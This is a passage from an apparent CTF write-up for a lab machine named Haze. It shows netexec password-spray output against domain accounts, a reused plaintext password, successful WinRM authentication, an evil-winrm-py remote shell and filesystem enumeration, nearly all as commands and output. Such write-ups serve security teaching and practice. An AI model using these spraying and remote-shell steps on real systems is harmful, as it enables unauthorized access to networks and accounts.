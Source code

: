 ```
SMB         10.10.11.61     445    DC01             [-] haze.htb\krbtgt:password STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\DC01$:password STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\edward.martin:password STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\alexander.green:password STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Haze-IT-Backup$:password STATUS_LOGON_FAILURE 

```

mark.adams shares the same password as paul.taylor!

### Shell

mark.adams can also WinRM:

```

oxdf@hacky$ netexec winrm haze.htb -u mark.adams -p Ld@p_Auth_Sp1unk@2k24 
WINRM       10.10.11.61     5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb) 
WINRM       10.10.11.61     5985   DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 (Pwn3d!)

```

I’ll connect with [evil-winrm-py](https://github.com/adityatelange/evil-winrm-py):

```

oxdf@hacky$ evil-winrm-py -i haze.htb -u mark.adams -p Ld@p_Auth_Sp1unk@2k24
        ▘▜      ▘             
    █▌▌▌▌▐ ▄▖▌▌▌▌▛▌▛▘▛▛▌▄▖▛▌▌▌
    ▙▖▚▘▌▐▖  ▚▚▘▌▌▌▌ ▌▌▌  ▙▌▙▌
                          ▌ ▄▌ v1.1.1
[*] Connecting to haze.htb:5985 as mark.adams
evil-winrm-py PS C:\Users\mark.adams\Documents>

```

## Auth as Haze-IT-Backup

### Enumeration

#### Filesystem

mark.adams’ home directory is very empty.

```

evil-winrm-py PS C:\Users\mark.adams> tree /f .
Folder PATH listing
Volume serial number is 0000025F 3985:943C
C:\USERS\MARK.ADAMS
+---Desktop
+---Documents
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
+---Videos
```